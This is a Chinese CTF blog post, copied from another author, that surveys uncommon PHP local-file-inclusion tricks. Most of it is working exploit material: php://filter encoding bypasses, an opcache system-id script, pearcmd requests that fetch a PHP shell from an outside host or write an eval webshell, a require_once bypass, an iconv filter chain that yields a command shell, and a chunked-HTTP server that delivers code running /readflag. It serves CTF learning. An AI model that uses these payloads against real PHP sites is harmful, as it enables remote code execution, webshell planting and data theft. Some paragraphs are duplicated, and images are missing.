






# 参考来源

全文复制自[颖奇L'Amore的文章](https://www.gem-love.com/2022/06/26/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E5%87%A0%E7%A7%8D%E4%B8%8D%E5%B8%B8%E8%A7%84%E5%88%A9%E7%94%A8%E5%A7%BF%E5%8A%BF/#undefined)

# 前言[▸](https://www.gem-love.com/2022/06/26/文件包含的几种不常规利用姿势/#qian-yan)

目前`CTF`里主流出的`PHP`文件包含，主要是以下几种：

1. 通过`LFI`读文件（包括直接读非`PHP`文件和使用`php伪协议`）
2. 上传图片等附件，内容中插入`php`代码，包含导致代码执行
3. 包含上传的`临时文件`
4. 包含`session`文件、利用`SESSION_UPLOAD_PROGRESS`
5. 结合伪协议，例如`zip://`包含压缩包内文件，触发`phar://`反序列化
6. `RFI`

本文主要总结几种不常见的文件包含考点，当然都是已经出过题的，不是什么`0day`级别的姿势，只是没有那么普遍，对于初学者来讲可能比较新颖。

然后我这里只介绍大致的思路，因笔者的水平也有限，具体的原理会给出相应的参考文章（本文的三个姿势都是从`zeddy`的文章中学习的）大家自行去阅读学习。

# 利用方式[▸](https://www.gem-love.com/2022/06/26/文件包含的几种不常规利用姿势/#li-yong-fang-shi)

## 伪协议读文件二次URL编码

普遍用伪协议读文件都是转成base64的Steam：

```
php://filter/convert.base64-encode/resource=
```

当然也有`string.rot13`之类的，但是如果`string` `base`关键字不能用的情况下，还可以用`iconv`转编码，例如：

```
php://filter/convert.iconv.ASCII.UCS-2BE/resource=index.php
php://filter/convert.iconv.utf-8.utf-7/resource=index.php
```

至于`php`的`iconv`都能用哪些编码，可以从[PHP官网](https://www.php.net/manual/en/mbstring.supported-encodings.php)查看，挑两个编码用一下就行了。

除此之外，还可以利用`include`函数解`urlencode`的特性来编码绕过：


```
?page=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=index.php
```

## 打opcache缓存

> 一般题目的形式是给到`phpinfo`，给文件包含或者任意文件读取，`flag`在`flag.php`

例题：`湖湘杯2020 web1`（当时因为安恒平台把`flag`直接放环境变量了导致`phpinfo`直接读`flag`变成了弱智题，实际的考点是打`flag.php`的`opcache`缓存）

```php
<?php
error_reporting(0);

//I heard you are good at PHPINFO+LFI, flag is in flag.php, find it my dear noob vegetable hacker.
if ( isset($_GET['file']) ) {
    $file = $_GET['file'];
    
    if ( $file === "phpinfo" ) {
        phpinfo(); // 有phpinfo
        exit;
    }

    if ( preg_match('/proc/i' , $file) ) {
        die("private");
    }

    $file = "/var/www/html/" . $file;
    $content = file_get_contents($file);

    if ( !$content ) {
        die("nothing");
    }

    if ( preg_match("/script|<\?/i", $content) ) { // 不能包含php标签，但是opcache缓存的bin文件不包含php标签，所以可以包含之
        die("bypass me");
    }

    include_once $file; // 有文件包含 可以读文件用

} else {
    highlight_file(__FILE__);
}
```

`OPcache`通过将`PHP`脚本预编译的字节码存储到共享内存中来提升`PHP`的性能， 存储预编译字节码的好处就是省去了每次加载和解析`PHP`脚本的开销

[](http://cdn1.pic.y1ng.vip/iPic/2021-07-14-090740.png)

他本来是个提升性能的扩展，然而他的配置有一个比较有趣的东西就是 opcache.file_cache

[](http://cdn1.pic.y1ng.vip/iPic/2021-07-14-091026.png)

上图这个配置意味着，在`/var/www/cache/`下存在着 `PHP` 的缓存文件，那么自然也会有 `flag.php` 的缓存，会在缓存文件夹内以`/var/www/html/flag.php.bin`存在，而完整的绝对路径是`/var/www/cache/[一个 md5]/ var/www/html/flag.php.bin`

然而这个文件名，也就是这个`MD5`是多少是不知道的。查阅资料可知，这个`md5`被称为` system id`,它的计算算法是固定的，由`php`版本号、`zend extension id`、`Zend Bin ID`，这三样拼接起来`md5`即可，而这`3`种东西正好全都在`phpinfo`里可以拿到，可以使用该脚本一键计算：

上图这个配置意味着，在`/var/www/cache/`下存在着 `PHP` 的缓存文件，那么自然也会有 `flag.php` 的缓存，会在缓存文件夹内以`/var/www/html/flag.php.bin`存在，而完整的绝对路径是`/var/www/cache/[一个 md5]/ var/www/html/flag.php.bin`

然而这个文件名，也就是这个`MD5`是多少是不知道的。查阅资料可知，这个`md5`被称为 `system id`,它的计算算法是固定的，由`php`版本号、`zend extension id`、`Zend Bin ID`，这三样拼接起来`md5`即可，而这`3`种东西正好全都在`phpinfo`里可以拿到，可以使用该脚本一键计算：

```python
import sys
import re
import requests
from md5 import md5
from packaging import version # python2 -m pip install -I packaging==17.0


url = 'http://y1ng.vip:4332/'
phpinfo_url = url + '/?phpinfo'

text = requests.get(phpinfo_url).text
php_version = re.search('<tr><td class="e">PHP Version </td><td class="v">(.*) </td></tr>', text)
if php_version == None:
    php_version = re.search('<h1 class="p">PHP Version (.*)', text)
if php_version == None:
    print "No PHP version found, is this a phpinfo file?"
    exit(0)
php_version = php_version.group(1)
php_greater_74 = (version.parse("7.4.0") < version.parse(php_version.split("-")[0]))
zend_extension_id = re.search('<tr><td class="e">Zend Extension Build </td><td class="v">(.*) </td></tr>', text)
if zend_extension_id == None:
    print "No Zend Extension Build found."
    exit(0)
zend_extension_id = zend_extension_id.group(1)
architecture = re.search('<tr><td class="e">System </td><td class="v">(.*) </td></tr>', text)
if architecture == None:
    print "No System info found."
    exit(0)
architecture = architecture.group(1).split()[-1]
if architecture == "x86_64":
    bin_id_suffix = "48888"
else:
    bin_id_suffix = "44444"
if php_greater_74:
    zend_bin_id = "BIN_" + bin_id_suffix
else:
    zend_bin_id = "BIN_SIZEOF_CHAR" + bin_id_suffix
if not php_greater_74:
    if architecture == "x86_64":
        alt_bin_id_suffix = "148888"
    else:
        alt_bin_id_suffix = "144444"

    alt_zend_bin_id = "BIN_" + alt_bin_id_suffix
print "PHP version : " + php_version
print "Zend Extension ID : " + zend_extension_id
print "Zend Bin ID : " + zend_bin_id
print "Assuming " + architecture + " architecture"
digest = md5(php_version + zend_extension_id + zend_bin_id).hexdigest()
print "------------"
print "System ID : " + digest
if not php_greater_74:
    alt_digest = md5(php_version + zend_extension_id + alt_zend_bin_id).hexdigest()
    print "PHP lower than 7.4 detected, an alternate Bin ID is possible:"
    print "Alternate Zend Bin ID : " + alt_zend_bin_id
    print "Alternate System ID : " + alt_digest
print "------------"
```

## 包含pearcmd装马

> 关于详细的`pearcmd`包含可以参考[这篇文章](https://blog.csdn.net/RABCDXB/article/details/122050370)，这里我只讲怎么利用

在`phpinfo`中如果看到`register_argc_argv`开放，可以获取外部的参数，以`+`作为分隔符


`pearcmd.php`是`pear`命



### 靶机可以出网

在自己的云主机上准备一个`shell`


利用方式

```
/?include=/usr/local/lib/php/pearcmd.php&+install+http://y1ng.vip/y1ng.php
/?include=/usr/local/lib/php/pearcmd.php&+download+http://y1ng.vip/y1ng.php
```

用`install`会下载到`/tmp`目录下，用`download`会下载到当前目录（但是大部分情况当前目录都没有可写权限，所以推荐用`install`）


### 靶机不能出网

写`shell`：

```
/?include=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[y1ng])?>+/tmp/y1ng.php
```

注意这里需要`burp`发包，不可用浏览器





不可直接用浏览器的原因是，浏览器会自动把`php`代码中的`< >`给`url`编码，实际写入的是`%3C?=eval($_POST[y1ng])?%3E`，导致`php`执行失败

## 绕过包含次数限制

我们知道`include_once` `require_once`对于同一个文件只能包含一次，有没有办法多次包含呢？

`WMCTF2020 make php great again 2.0`这个题：

```php
<?php
require_once('flag.php');
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    require_once($content);
} 
```

已经包含了`flag.php`一次了，那么就没办法继续包含它了。解题方法如下：

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

路径中的`/proc/self/root`就表示`/` 所以`/proc/self/root/proc/self/root···`就一直表示`/`路径。至于为什么可以这样，可以看[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)的分析。

## include2shell

具体原理及构造思路可以参考陆队的文章：[hxp CTF 2021 - The End Of LFI?](https://tttang.com/archive/1395/)

```
http://y1ng.vip/include.php?page=
php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd&0=id
```

即可包含一个`shell`:

```
<?=`$_GET[0]`;;?>
```



## compress.zlib生成临时文件

参考陆老师的文章：[36c3 Web 学习记录](https://blog.zeddyu.info/2020/01/08/36c3-web/#includer)

是临时文件包含的延伸利用姿势，可以使用`compress.zlib://`来生成临时文件，需要自己开一个`http server`返回大文件：

```python
from pwn import *
import requests
import re
import threading
import time


def send_chunk(l, data):
    l.send('''{}\r
{}\r
'''.format(hex(len(data))[2:], data))

while(True):
    l = listen(9999)
    l.wait_for_connection()

    data1 = ''.ljust(1024 * 8, 'X')
    data2 = '<?php system("/readflag"); exit(); /*'.ljust(1024 * 8, 'b')
    data3 = 'c*/'.rjust(1024 * 8, 'c')

    l.recvuntil('\r\n\r\n')
    l.send('''HTTP/1.1 200 OK\r
Content-Type: exploit/revxakep\r
Connection: close\r
Transfer-Encoding: chunked\r
\r
''')

    send_chunk(l, data1)

    print('waiting...')
    print('sending php code...')

    send_chunk(l, data2)

    sleep(3)

    send_chunk(l, data3)

    l.send('''0\r
\r
\r
''')
    l.close()
```

然后包含即可生成，这里直接贴路队的文章截图：



除了`http`以外，还可以使用`ftp`协议，并且控制`ftp`的速度，可以让临时文件更久的保留。

## 包含nginx临时文件

依然是临时文件包含的延伸利用姿势。大概利用到如下几条原理：

1. 当`nginx`接收`fastcgi`响应过大则会将一部分内容以临时文件的形式存在硬盘上

2. 临时文件会被很快清除，但是`/proc/xxx/fd/x`依然可以取到这个临时文件的内容，`pid`和`fd`需要遍历

3. 利用上面`wmctf`例题绕过包含次数限制的方法去包含`/proc/xxx/fd/x`即可

   详细的思路请看陆老师的文章：[hxp CTF 2021 - A New Novel LFI](https://tttang.com/archive/1384/)